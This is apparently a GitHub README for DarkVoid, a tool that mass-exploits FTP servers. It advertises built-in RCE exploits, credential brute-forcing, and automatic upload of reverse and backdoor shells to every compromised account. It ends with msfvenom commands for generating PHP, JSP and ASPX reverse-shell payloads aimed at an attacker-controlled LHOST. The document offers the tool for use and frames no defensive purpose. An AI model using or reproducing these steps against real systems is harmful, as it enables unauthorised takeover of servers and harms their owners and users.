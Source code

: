 [DARKVOID V1.2]

<img src="https://github.com/darkseid-security/DarkVoid/blob/main/IMG/Screenshot%20at%202022-12-04%2005-17-11.png">

Mass FTP exploitation tool, automates vulnerbility scanning and exploiting FTP servers.

Features:
- Detects FTP service version and alerts you if server is vulnerable to RCE(Remote Code Execution)
- Automatic exploitation
- Built in exploits
- Tries anonymous login
- Tries to upload a shell if anonymous login is successful
- Bruteforce default creds
- If bruteforce is successful program will try and upload a reverse shell through FTP for every cracked account
- Logs cracked user accounts and compromise FTP server via backdoor shell
- [*New Feature] Identifies webserver version and serves payload based on accepted webserver file types
- [*New Feature] Updated UI design
- [*New Feature] Added CVE-2012-1823 

Supports:
- All operating systems running python enviroment
- Exploit support for Pureftp,Proftp and vsFTP
- Exploits for Windows and Linux

TODO:
- Add more exploits
- Test proFTPD 1.3.2rc3 exploit 

Run 
==============
Add targets to Files/targets.txt
Generate payloads in DarkVoid directory before running scipt

msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php Create a JSP reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp Create a ASPX reverse shell
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx

